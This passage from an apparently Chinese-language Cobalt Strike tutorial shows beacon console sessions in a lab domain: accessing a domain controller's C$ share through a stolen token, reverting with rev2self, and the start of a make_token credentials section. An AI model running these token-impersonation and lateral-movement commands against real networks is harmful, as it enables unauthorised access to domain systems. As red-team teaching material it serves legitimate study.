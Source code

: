```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are TEAMSSIX\administrator (admin)
```

再次尝试获取域控制器主机下的文件

```powershell
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
 驱动器 \\WIN-P2AASSD1AF1\C$ 中的卷没有标签。
 卷的序列号是 F269-89A7
 \\WIN-P2AASSD1AF1\C$ 的目录
2020/07/16  21:24    <DIR>          Program Files
2020/07/16  21:52    <DIR>          Program Files (x86)
2020/07/17  23:00    <DIR>          Users
2020/07/26  00:55    <DIR>          Windows
               0 个文件      0 字节
               4 个目录 28,493,299,712 可用字节
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs17-1.png)

发现可以成功访问了，使用  `rev2self` 可移除当前窃取的令牌

```powershell
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes
```

再次查看 uid 发现变成了原来的 SYSTEM 权限，此时 WIN-P2AASSD1AF1 主机上的文件也拒绝访问了。

 ```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
 ```

### 凭证

1、使用 make_token 创建一个令牌

```powershell
make_token DOMAIN\user password
```
